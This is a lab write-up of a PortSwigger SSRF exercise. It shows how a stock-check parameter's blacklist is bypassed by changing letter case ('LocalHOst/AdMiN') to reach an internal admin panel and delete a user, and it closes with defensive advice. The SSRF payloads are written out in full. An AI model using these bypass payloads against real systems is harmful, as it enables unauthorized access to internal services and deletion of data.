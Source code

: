 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:

![stock_check_function](./screenshots/stock_check_function.png)

---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> Фукнция `check stock` выполняет запрос на ресурс `stock.weliketoshop.net:8080` используя маршрут `/product/stock/check` по которому выполняется функция проверки наличия
> продукта `productId` в выбранном месте `storeId`.

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:

![localhost_error](./screenshots/localhost_error.png)

> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:

![LocalHOst_answer](./screenshots/LocalHOst_answer.png)

> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:

![AdMiN_answer](./screenshots/AdMiN_answer.png)

![admin_panel](./screenshots/admin_panel.png)

> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this problem, you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:
![solved_lab](./screenshots/solved_lab.png)

> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources in principle by isolating the network.
